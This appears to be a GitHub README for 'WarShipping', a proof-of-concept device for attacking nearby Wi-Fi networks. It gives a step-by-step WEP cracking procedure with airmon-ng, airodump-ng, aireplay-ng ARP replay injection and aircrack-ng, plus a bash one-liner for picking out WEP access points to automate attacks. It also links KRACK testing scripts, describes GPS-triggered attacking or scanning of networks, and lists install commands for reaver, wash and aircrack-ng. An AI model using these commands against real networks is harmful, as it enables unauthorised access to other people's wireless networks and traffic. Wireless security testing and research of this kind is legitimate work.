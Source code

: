 # WarShipping
WarShipping remixed as a proof of concept.

WEP cracking using airmon-ng
- iwconfig
- airmon-ng start <wireless card>
- airodump-ng <mon card>
- airodump-ng <mon card> --bssid <bssid> -w <write to file> file
(if theres not enough traffic to crack the password)
on another tab:
- aireplay-ng -3 -b <bssid> -h <host connected to network> <mon card>
(cracking the password)
- aircrack-ng <file>.cap

Test 0 (Manual attack)
- manual testing worked, arp poisoning aided but not required with active network.
- one terminal window required unless arp poisoning required.

Test 1 (Automation attempt)
- airodump-ng <mon card> -w <write to> file
- file .csv contains wireless points caught in monitor mode
- cat *.csv | grep -i wep | cut -d ',' -f 1
  - above bash oneliner isolates the bssid of each access point
  
WPA2 (KRACK attack)
- https://github.com/vanhoefm/krackattacks-scripts
- script above is for testing krack attack vulnerability instead of attacking the Wi-Fi security.

When GPS location has been reached the device will instead of attacking all networks will scan them for vulnerabilities.
https://www.youtube.com/watch?v=N8fH0nc9v9Q
https://sparklers-the-makers.github.io/blog/robotics/use-neo-6m-module-with-raspberry-pi/


Apt update
Apt dist-upgrade
Apt-get install reaver
Apt-get install wash
Apt-get install aircrack-ng
Git clone https://github.com/vanhoefm/krackattacks-scripts
